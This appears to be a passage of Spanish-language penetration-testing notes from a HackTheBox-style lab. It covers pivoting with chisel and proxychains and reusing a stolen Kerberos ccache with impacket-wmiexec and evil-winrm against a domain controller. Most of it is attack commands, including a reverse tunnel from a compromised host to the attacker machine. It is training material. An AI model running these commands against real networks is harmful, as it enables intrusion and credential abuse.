 ```
172.16.1.5  ms01.inlanefreight.htb  ms01
```
Es mejor configurar correctamente el DNS si está disponible
##### Configuración proxychains
```
at /etc/proxychains.conf 
<SNIP> 
[ProxyList] 
socks5 127.0.0.1 1080
```
##### Descargar chisel en nuestra máquina atacante
```bash
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz 
gzip -d chisel_1.7.7_linux_amd64.gz mv chisel_* chisel && chmod +x ./chisel 
sudo ./chisel server --reverse
```
##### Ejecutar chisel desde máquina comprometida
Cuando el cliente ejecuta `R:socks`, Chisel activa un proxy SOCKS en el puerto 1080 de la máquina atacante
```cmd
c:\tools\chisel.exe client 10.10.14.33:8080 R:socks
```
##### Establecer variable de entorno `KRB5CCNAME` en nuestra máquina atacante
Habrá que transferir primero el archivo ccache a nuestra máquina atacante:
```bash
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```
##### Utilizar impacket sobre proxychains con autenticación kerberos
```bash
proxychains impacket-wmiexec dc01 -k
```
`-k` indica autenticación kerberos. Es necesario poner el nombre de la máquina (`dc01` en este caso) y no su dirección ip
##### Evil-WinRM
Si tenemos instalado `krb5-user` (como es el caso en linux), necesitamos cambiar el archivo  `/etc/krb5.conf`  para incluir los siguientes valores:
```bash
an0nio@htb[/htb]$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>
```
Con esta configuración ya se puede utilizar `Evil-WinRM` del siguiente modo:
```bash
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```
#### Misceláneo
##### Convertir ccache file a .kirbi válido para Windows
```bash
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```
##### Importar el ticket en una sesión Windows con Rubeus
